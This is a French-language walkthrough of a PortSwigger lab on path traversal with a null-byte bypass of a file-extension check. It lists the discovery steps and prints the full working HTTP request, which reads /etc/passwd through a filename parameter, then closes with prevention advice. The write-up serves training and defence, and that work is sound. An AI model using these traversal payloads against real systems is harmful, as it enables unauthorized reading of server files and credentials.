

## Challenge 1 – File path traversal, validation of file extension with null byte bypass

- **Nom :** File path traversal, validation of file extension with null byte bypass
- **URL :** https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass

### Étapes de découverte

1. Ouverture du lab.
2. Navigation sur la page produit et observation des requêtes dans l’onglet `Proxy → HTTP history`.
3. Identification d’une requête de type `GET /image?filename=XX.png` pour l’affichage des images produits.
4. Envoi de cette requête vers `Repeater` pour pouvoir modifier le paramètre `filename`.
5. Test d’une path traversal simple (`../../../../../etc/passwd`) qui échoue car l’application impose que le nom finisse par `.png`.
6. Test avec `../../../../../etc/passwd.png` qui échoue également.
7. Tentative de bypass avec un **null byte** (`%00`) comme indiqué par le nom du challenge et ça a fonctionné.

### Payload utilisé et screen shot

```text
GET /image?filename=../../../../../../../etc/passwd%00.jpg HTTP/2
Host: 0ad300a104a1b50981d5709500ff0048.web-security-academy.net
Cookie: session=4CuOOMpIWyyAdFBcXPiijRQ5dXLPjGh5
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: fr-FR,fr;q=0.9
Sec-Ch-Ua: "Not_A Brand";v="99", "Chromium";v="142"
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0ad300a104a1b50981d5709500ff0048.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: i
```




### Les recommandations

Eviter de passer directement les données utilisateurs aux API du système de ficher. Si ce n'est pas possible il faut valider les données saisies par l'utilisateur avant de les traiter. 
https://portswigger.net/web-security/file-path-traversal#how-to-prevent-a-path-traversal-attack